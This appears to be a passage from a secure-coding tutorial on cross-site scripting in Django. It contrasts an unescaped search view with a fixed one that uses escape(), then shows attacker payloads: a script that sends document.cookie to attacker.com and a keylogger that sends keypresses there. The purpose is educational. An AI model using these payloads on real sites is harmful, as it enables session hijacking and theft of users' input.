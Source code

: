 ### Secure vs. Vulnerable Code

**Vulnerable (Python/Django):**

```python
keyword = request.GET.get('keyword', '')
html = f'<div>You searched for: {keyword}</div>'
return HttpResponse(html)
```

**Secure (Python/Django):**

```python
from django.utils.html import escape

keyword = request.GET.get('keyword', '')
html = f'<div>You searched for: {escape(keyword)}</div>'
return HttpResponse(html)
```

The `escape()` function converts special characters to HTML entities:

- `<` becomes `&lt;`
- `>` becomes `&gt;`
- `"` becomes `&quot;`
- `'` becomes `&#x27;`
- `&` becomes `&amp;`

So `<script>alert(1)</script>` becomes:

```
&lt;script&gt;alert(1)&lt;/script&gt;
```

This displays as text rather than executing as code.

## Beyond alert(1)

While `alert(1)` proves the vulnerability exists, real attackers would use more sophisticated payloads:

### Cookie Theft

```javascript
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
```

This sends the victim's cookies (including session tokens) to the attacker's server.

### Keylogging

```javascript
<script>
document.addEventListener('keypress', function(e) {
    fetch('https://attacker.com/log?key=' + e.key);
});
</script>
```
